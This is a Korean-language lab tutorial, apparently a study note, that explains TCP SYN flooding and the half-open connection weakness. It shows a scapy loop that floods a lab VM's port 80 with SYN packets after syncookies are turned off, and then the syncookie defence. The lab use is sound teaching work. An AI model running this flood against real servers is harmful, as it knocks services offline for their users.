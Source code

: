 ```yaml
---
sort: 3
---
```


# TCP SYN Flooding

<center><img src = "https://user-images.githubusercontent.com/76420201/106401723-fbdeef80-6468-11eb-80f2-9ee8eaece9d6.jpg"></center>


TCP/IP 네트워크에서의 정상적 TCP 연결 3-way handshake 과정의 경우, 클라이언트가 원격지 서버의 특정 포트에 SYN패킷(packet)을 발송함으로써 연결을 요청하고 요청을 받은 원격 서버가 SYN/ACK 패킷으로 응답한 후 수신된 연결 요청 정보를 해당 시스템 TCP 연결 자원인 Backlog Queue내 incomplete connection queue에 저장한다.

이때 서버가 응답한 SYN+ACK에 대하여 클라이언트가 ACK로써 응답을 보내지 않으면 accept()시스템 콜을 통해 클라이언트와 통신할 연결소켓을 생성하지 못하므로 서버는 incomplete connetion queue에 있던 연결 요청 정보를 수행하지 못하고 그대로 남아있다는 **half-open TCP** 연결 상태에 머무르는 구조적 취약점이 있다.

Attacker(공격자)는 이 취약점을 이용한 서비스 거부(Dos)를 유발하는 공격을 위해서 서버 특정 포트에 SYN packet을 발송하는 과정을 대량으로 중첩시켜 Backlog Queue내 incomplete connetion queue를 가득 채움으로써 소진시키게 되고 이로인해 더 이상 새로운 클라이언트의 TCP 연결요청을 받을 수 없게 되어 이 후 요청되는 다수의 TCP 연결이 완료되지 않고 무시된다.

```note
백로그 큐가 꽉 차게 되면 더 이상 연결요청을 받을 수 없어 정상적인 서비스 제공이 불가능한 상태가 된다.

클라이언트의 응답 문자(ACK)가 없으면 서버에서는 클라이언트의 접속 정보를 잠시 운용 기록에 쌓아 두는데, 이러한 요구가 증가했을 경우 시스템은 운용기록 공간을 확보하기 못하게 되고, 결국 네트워크 중단으로 이어여 Dos가 일어난다.

TCP 통신 연결 수립을 위한 3way-handshake 특성을 이용하여 클라이언트에서 SYN 정보만 전송 후, SYN/ACK 정보 수신에 따른 ACK전송을 하지 않음으로써 서버를 장시간 대기상태로 만들어 리소스를 점유하는 전형적인 SYN Flooding 공격 유형이다.
```
<br>

## 공격과정

**Step 1. Victim 가상머신에서 syncookie 사용을 확인 후 사용을 해제**

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -a | grep syncookies
'net.ipv4.tcp_syncookies = 1'
```

syncookie를 사용하면 backlog que가 가득 차 있어도 정보를 계속 쌓을 수 있다. 실습을 위해서 Victim의 syncookie를 해제한다.

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w  net.ipv4.tcp_syncookies=0		
'net.ipv4.tcp_syncookies = 0'	
```

---

**Step 2. TCP syn flooding 공격**

```
┌──(kali㉿kali)-[~]
└─$ sudo scapy   
```

```
>>> tcp = TCP()
>>> tcp.dport = 80
>>> tcp.sport = RandNum(1024, 65535)
>>> tcp.flags = 'S'
>>> ip = IP()
>>> ip.dst = '192.168.94.133'
>>> syn = ip / tcp
>>> syn.show()

>>> send(syn, loop=True)
```

---

**Step 3. Victim 가상머신에서 네트워크 상태 확인**

```
┌──(kali㉿kali)-[~]
└─$ sudo netstat -an | grep -i syn_recv
```

![synflooding1](https://user-images.githubusercontent.com/76420201/107165490-73c39180-69f6-11eb-9140-af935a7eb2d8.GIF)

<br>

- WinXP 가상머신에서 Victim 가상머신의 아파치 서버로 접속을 시도

![synflooding2](https://user-images.githubusercontent.com/76420201/107165492-758d5500-69f6-11eb-9ea0-e1523287231a.GIF)

---

**Step 4. Victim 가상머신에서 syncookie 설정**

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -a | grep syncookies   
net.ipv4.tcp_syncookies = 0
```                                                                                                                    ```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w  net.ipv4.tcp_syncookies=1
net.ipv4.tcp_syncookies = 1
```                                                                                                                   ``` 
┌──(kali㉿kali)-[~]
└─$ sudo service apache2 restart  
```

<br>

- WinXP 가상머신에서 Victim 가상머신의 아파치 서버로 접속 시도

![synflooding3](https://user-images.githubusercontent.com/76420201/107165494-76be8200-69f6-11eb-9a0e-ea6dc959f788.GIF)


